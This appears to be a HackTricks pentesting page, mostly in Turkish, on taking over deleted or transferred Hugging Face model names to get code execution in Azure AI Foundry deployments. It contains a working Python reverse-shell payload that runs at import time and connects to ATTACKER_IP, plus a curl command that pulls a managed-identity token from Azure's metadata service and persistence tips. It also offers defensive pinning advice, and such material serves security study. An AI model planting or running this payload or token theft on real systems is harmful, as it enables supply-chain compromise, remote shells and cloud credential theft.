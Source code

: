 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Senaryo

- Azure AI Foundry Model Catalog, tek tıklamayla dağıtım için birçok Hugging Face (HF) modelini içerir.
- HF model identifier'ları Author/ModelName şeklindedir. Bir HF author/org silinirse, herhangi biri o author'ı yeniden kaydederek aynı ModelName ile legacy path'te bir model yayımlayabilir.
- Yalnızca isimle (commit pinning/integrity olmadan) çeken pipelines ve catalogs, attacker-controlled repos'lara çözümlenir. Azure modeli deploy ettiğinde, loader code endpoint ortamında çalıştırılabilir ve bu endpoint'in izinleriyle RCE sağlar.

Yaygın HF takeover durumları:
- Ownership deletion: Eski path takeover gerçekleşene kadar 404 döner.
- Ownership transfer: Eski path, eski author var olduğu sürece 307 ile yeni author'a yönlendirilir. Eski author daha sonra silinip yeniden kaydedilirse, redirect bozulur ve attacker’ın repo legacy path üzerinde hizmet verir.

## Yeniden Kullanılabilir Namespace'leri (HF) Belirleme
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Azure AI Foundry'a Karşı Uçtan Uca Saldırı Akışı

1) Model Catalog'ta, HF'de orijinal yazarı silinmiş veya devredilmiş (eski yazar kaldırılmış) modelleri bulun.  
2) HF'de terk edilmiş yazarı yeniden kaydederek ModelName'i yeniden oluşturun.  
3) Import sırasında çalışan veya trust_remote_code=True gerektiren loader kodu içeren kötü amaçlı bir repo yayınlayın.  
4) Azure AI Foundry'dan legacy Author/ModelName'i deploy edin. Platform saldırganın repo'sunu çeker; loader Azure endpoint container/VM içinde çalışır ve endpoint izinleriyle RCE sağlar.

Import sırasında çalıştırılan örnek payload parçası (sadece gösterim amaçlı):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notlar
- AI Foundry dağıtımları HF ile entegre olduğunda genellikle model’s config tarafından referans verilen repo modüllerini (ör. auto_map) clone edip import eder; bu kod çalıştırılmasına yol açabilir. Bazı yollar trust_remote_code=True gerektirir.
- Erişim genellikle endpoint’s managed identity/service principal permissions ile eşleşir. Bunu Azure içinde veri erişimi ve lateral movement için bir initial access foothold olarak değerlendirin.

## Post-Exploitation Tips (Azure Endpoint)

- Enumerate environment variables and MSI endpoints for tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Edinilen token ile bağlı depolamayı, model artefaktlarını ve erişilebilen Azure servislerini kontrol edin.
- Platform HF'den yeniden çekerse, zehirlenmiş model artefaktlarını bırakarak persistence'i düşünün.

## Azure AI Foundry Kullanıcıları için Savunma Rehberi

- HF'den yüklerken modelleri commit'e göre sabitleyin:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Onaylanmış HF modellerini güvenilir bir dahili kayıt deposuna yansıtın ve oradan dağıtın.
- Kod tabanlarını ve defaults/docstrings/notebooks içeriğini, silinmiş/aktarılan sert kodlanmış Author/ModelName'ler açısından sürekli tarayın; güncelleyin veya sabitleyin.
- Dağıtımdan önce Author varlığını ve modelin kaynağını doğrulayın.

## Tanıma Heuristikleri (HTTP)

- Deleted author: Author sayfası 404 döner; takeover'a kadar legacy model yolu 404 döner.
- Transferred model: legacy yol, eski author hâlâ mevcutken yeni Author'a 307 yönlendirir; eski author daha sonra silinip yeniden kayıt olursa, legacy yol saldırgan içeriği servis eder.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Çapraz Referanslar

- Daha geniş metodoloji ve tedarik zinciri notlarına bakın:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referanslar

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
